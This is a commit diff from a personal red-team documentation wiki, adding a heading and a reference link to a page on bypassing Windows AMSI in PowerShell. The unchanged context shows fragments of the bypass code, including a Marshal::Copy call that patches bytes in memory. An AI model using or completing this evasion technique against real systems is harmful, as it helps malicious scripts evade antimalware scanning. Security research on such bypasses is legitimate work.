

Before and after one commit to navaneeth-dev/wiki, an MkDocs documentation site: the page built from docs/red team/Windows/PowerShell/AMSI Bypass.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
amsi bypass

````diff
--- a/docs/red team/Windows/PowerShell/AMSI Bypass.md
+++ b/docs/red team/Windows/PowerShell/AMSI Bypass.md
@@ -1,3 +1,5 @@
+# AMSI Bypass
+
 ```powershell
 $ynfhj = @"
 using System;
@@ -26,3 +28,7 @@
 $mom = [System.Runtime.InteropServices.Marshal]
 $mom::Copy($uggea, 0, $veratw, 6)
 ```
+
+## References
+
+[S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
````
Also changed, not shown: docs/red team/index.md (added, +3 -0 lines), 1 other file.
